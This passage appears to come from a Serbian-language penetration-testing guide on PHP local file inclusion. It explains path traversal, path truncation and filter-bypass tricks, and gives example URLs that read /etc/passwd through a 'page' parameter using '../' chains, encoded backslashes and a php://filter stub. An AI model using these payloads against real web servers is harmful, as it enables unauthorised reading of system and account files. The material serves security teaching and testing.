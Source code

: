 ```bash
http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd
```

### **Tehnika skraćivanja putanje**

Skraćivanje putanje je metoda koja se koristi za manipulaciju putanjama datoteka u veb aplikacijama. Često se koristi za pristup ograničenim datotekama zaobilazeći određene sigurnosne mere koje dodaju dodatne karaktere na kraj putanje datoteke. Cilj je da se oblikuje putanja datoteke koja, kada je promenjena sigurnosnom merom, i dalje pokazuje ka željenoj datoteci.

U PHP-u, različite reprezentacije putanje datoteke mogu se smatrati ekvivalentnim zbog prirode fajl sistema. Na primer:

* `/etc/passwd`, `/etc//passwd`, `/etc/./passwd` i `/etc/passwd/` se tretiraju kao ista putanja.
* Kada su poslednjih 6 karaktera `passwd`, dodavanje `/` (čineći `passwd/`) ne menja ciljanu datoteku.
* Slično, ako se `.php` doda na putanju datoteke (kao što je `shellcode.php`), dodavanje `/.` na kraj neće promeniti pristupanu datoteku.

Pruženi primeri demonstriraju kako iskoristiti skraćivanje putanje da bi se pristupilo `/etc/passwd`, čestoj meti zbog osetljivog sadržaja (informacije o korisničkim nalozima):

```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd......[ADD MORE]....
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
```

```
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

U ovim scenarijima, broj potrebnih prolaza može biti oko 2027, ali taj broj može varirati na osnovu konfiguracije servera.

* **Korišćenje tačkastih segmenata i dodatnih karaktera**: Sekvence prolaza (`../`) kombinovane sa dodatnim tačkastim segmentima i karakterima mogu se koristiti za navigaciju kroz sistem datoteka, efikasno ignorišući dodate stringove od strane servera.
* **Određivanje potrebnog broja prolaza**: Kroz isprobavanje, može se pronaći precizan broj sekvenci `../` potrebnih za navigaciju do korenskog direktorijuma, a zatim do `/etc/passwd`, osiguravajući da su neutralisani svi dodati stringovi (poput `.php`), ali da željena putanja (`/etc/passwd`) ostane netaknuta.
* **Početak sa lažnim direktorijumom**: Uobičajena praksa je započeti putanju sa nepostojećim direktorijumom (kao što je `a/`). Ova tehnika se koristi kao preventivna mera ili da bi se ispunili zahtevi logike parsiranja putanje servera.

Prilikom korišćenja tehnika skraćivanja putanje, ključno je razumeti ponašanje parsiranja putanje servera i strukturu sistema datoteka. Svaki scenario može zahtevati drugačiji pristup, a testiranje je često neophodno kako bi se pronašla najefikasnija metoda.

**Ova ranjivost je ispravljena u PHP 5.3.**

### **Trikovi za zaobilaženje filtera**

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```
